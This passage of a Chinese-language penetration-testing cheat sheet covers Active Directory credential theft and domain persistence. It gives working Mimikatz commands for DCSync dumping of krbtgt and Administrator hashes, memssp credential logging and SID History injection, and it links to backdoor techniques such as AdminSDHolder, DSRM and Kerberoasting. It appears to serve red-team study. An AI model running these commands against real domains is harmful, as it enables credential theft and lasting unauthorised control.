 ```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit
```
管理员用户帐户提取密码数据：
```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exit

```
* NTDS.dit中提取哈希 
使用esedbexport恢复以后使用ntdsxtract提取 

#### AD持久化 
##### 活动目录持久性技巧 
https://adsecurity.org/?p=1929 
DS恢复模式密码维护 
DSRM密码同步 
>Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

[DCshadow ](https://www.dcshadow.com/)

##### Security Support Provider 
简单的理解为SSP就是一个DLL，用来实现身份认证
```
privilege::debug
misc::memssp
```
这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log
##### [SID History](https://adsecurity.org/?p=1772) 
SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户
```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```
##### [AdminSDHolder＆SDProp ](https://adsecurity.org/?p=1906)
利用AdminSDHolder＆SDProp（重新）获取域管理权限 
##### 组策略 
https://adsecurity.org/?p=2716 
[策略对象在持久化及横向渗透中的应用](https://www.anquanke.com/post/id/86531) 
##### Hook PasswordChangeNotify 
http://wooyun.jozxing.cc/static/drops/tips-13079.html 

##### Kerberoasting后门
[域渗透-Kerberoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)

##### AdminSDHolder
[Backdooring AdminSDHolder for Persistence](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

##### Delegation
[Unconstrained Domain Persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)
